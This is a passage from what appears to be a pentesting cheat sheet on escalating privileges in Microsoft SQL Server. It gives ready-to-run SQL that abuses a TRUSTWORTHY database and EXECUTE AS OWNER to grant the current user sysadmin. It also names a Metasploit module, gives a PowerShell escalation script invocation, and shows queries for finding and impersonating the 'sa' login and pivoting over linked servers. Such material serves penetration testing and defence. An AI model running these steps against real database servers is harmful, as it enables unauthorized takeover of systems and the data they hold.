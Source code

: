 ```sql

CREATE PROCEDURE sp_elevate_me
WITH EXECUTE AS OWNER
AS
EXEC sp_addsrvrolemember 'USERNAME','sysadmin'

--2. Execute stored procedure to get sysadmin role
USE <trustworthy_db>
EXEC sp_elevate_me

--3. Verify your user is a sysadmin
SELECT is_srvrolemember('sysadmin')
```

You can use a **metasploit** module:

```bash
msf> use auxiliary/admin/mssql/mssql_escalate_dbowner
```

Or a **PS** script:

```powershell
# https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/Invoke-SqlServer-Escalate-Dbowner.psm1
Import-Module .Invoke-SqlServerDbElevateDbOwner.psm1
Invoke-SqlServerDbElevateDbOwner -SqlUser myappuser -SqlPass MyPassword! -SqlServerInstance 10.2.2.184
```

### Impersonation of other users

SQL Server has a special permission, named **`IMPERSONATE`**, that **allows the executing user to take on the permissions of another user** or login until the context is reset or the session ends.

```sql
# Find users you can impersonate
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
# Check if the user "sa" or any other high privileged user is mentioned

# Impersonate sa user
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')

# If you can't find any users, make sure to check for links
enum_links
# If there is a link of interest, re-run the above steps on each link
use_link [NAME]
```
